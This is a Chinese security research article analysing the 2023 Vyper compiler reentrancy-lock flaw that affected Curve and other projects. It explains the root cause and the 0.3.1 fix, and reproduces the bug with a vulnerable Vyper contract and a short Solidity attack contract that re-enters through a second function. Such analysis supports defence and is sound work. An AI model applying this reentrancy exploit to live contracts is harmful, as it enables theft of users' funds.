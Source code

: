#  Vyper 智能合约重入锁防御失效漏洞分析   
原创 whatiwhere  山石网科安全技术研究院   2023-08-01 10:02  
  
## 事件背景  
  
2023年7月31日0点左右，vyper官方提醒，0.2.15, 0.2.16和0.3.0的vyper的重入锁有漏洞。目前，由此漏洞造成的损失已超过7000万美元，受影响的项目包括Curve、Alchemix 和 JPEG'd。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqobtfFBOaXelfJeXy98jLvYlq3bZ3EJDXqudhMrI68TMTRFWKoLMclg/640?wx_fmt=png "")  
## 原因分析  
  
生成外部函数的ir的函数：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqsbgDI0dWqvoTySOeIAG85GdRHvsaJJFKnN6mpyiaeSAGchCbicXIVtiag/640?wx_fmt=png "")  
  
调用get_nonreentrant_lock函数获取检查重入锁：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uq4CBe5J8mZncoNlsPicFSWjjUgZHsffich9l5u0yz7F3yIpria30nFIR0Q/640?wx_fmt=png "")  
  
这部分的逻辑是首先查看该函数是否是重入保护函数，如果是的话获取存储重入flag的slot的位置。  
  
check_notset = ["assert", ["ne", temp_value, [LOAD, nkey]]] 这个语句的意思是使用load指令读取重入flag的slot，将值存入临时变量中，并断言这个值是否为真。  
  
set_data_positions 函数的功能是设置一个合约中所有变量在slot中的位置  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqGeuWE8mr9oQtPp0grgoO4MFf1MBz375lHoEZ0HshavyrlJtv3Ts5Ow/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqzhz6KH9RogMiakxtZLv2VkJCMDFlUJe9eqcg8JtEU6rZ55HsCoojSlQ/640?wx_fmt=png "")  
  
在第一个for循环中，遍历一个合约中的所有函数，node是一个函数定义结点，如果函数定义中有nonreentrant装饰器，则调用set_reentrancy_key_position设置重入锁flag的slot位置：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqP0CVM79z5ImWhia9VDJffprT5ICr9uyzC8Zzqibz7nTgBxB2g3xA305g/640?wx_fmt=png "")  
  
问题的关键是一个合约中可能有多个函数使用nonreentrant装饰器，这里相当于给每一个函数都分配了一个重入锁flag。  
  
如果重入的自身的函数，那没有问题，因为访问的是同一个重入锁flag，但如果重入调用的是其他函数，这时候访问的是这个被调用函数的slot，这时的flag还是初始状态，所以可以绕过重入锁。  
## 官方修复  
  
在0.3.1版本的set_storage_slots函数中，对整个合约只设置一个重入锁flag的slot：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uq1T8QCUlDAmHvuRwB1ib0xMdlxhyv3kia7DQY0iadyeT2khLOyG3cMQvLA/640?wx_fmt=png "")  
  
有意思的是，官方认为这只是一个优化上的小问题，因为旧版版会占用更多的slot，而没意识到这将导致严重的安全问题：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uq68VFnTgxQ9voNAY3PmIREzrsYnYKM1Y1Ro6Iu3NhKiaVFOaqs9Uqbzg/640?wx_fmt=png "")  
## 漏洞复现  
  
首先安装0.2.15版本的vyper：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqUQPr9q1HfeVTlZDTAPjnuFWtMZSaE0X04CfBOS1M3Z7UKztVYniasZA/640?wx_fmt=png "")  
  
被攻击的vyper合约：  
```
@nonreentrant("lock")
@external
def a(contract: address):
    value: uint256 = 0
    raw_call(contract, b"",value=value)

@nonreentrant("lock")
@external
def b():
    pass

```  
  
两个函数都是用nonreentrant装饰器。  
  
攻击合约：  
```
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.13;

import "./Itest.sol";

contract Exp{
    Itest public test;
    uint256 public times;

    constructor(address _test) {
        test = Itest(_test);
    }

    function go() public {
        test.a(address(this));
    }

    receive () external payable { 
        if (times == 0) {
            times++;
            // test.b();
            test.a(address(0));
        }
    }
}

```  
  
首先测试重入a函数，即重新调用本身的函数，调用失败：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uq9ts77wOXgPk4qpfYHGd4yffQHx9NJAeCAuWRZFv5n2MXeP9nvUyCkw/640?wx_fmt=png "")  
  
接着测试调用b函数，此时调用成功，说明漏洞存在：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqWFINY2ewMUPviaIfk3iaWMEPWdd42BYMTEBznTEhutLG6BElXHib26Hvw/640?wx_fmt=png "")  
  
升级vyper到0.3.1:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqicmOdRZyotiaerc0ncnaCFJribyic0Ptd51IGd7z6cZVQxG3SyLaqO98rQ/640?wx_fmt=png "")  
  
这时就无法在a函数中调用b函数：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSOKGywSXbU4FlJJTUDS5uqh0CTQywiagP9MciaIOla1h3WuO77BAsdBDtXibhD1ibcgaAJgaiaWmE3u7g/640?wx_fmt=png "")  
  
复现链接：  
  
**https://github.com/wangbar0133/vyper_0215**  
  
  
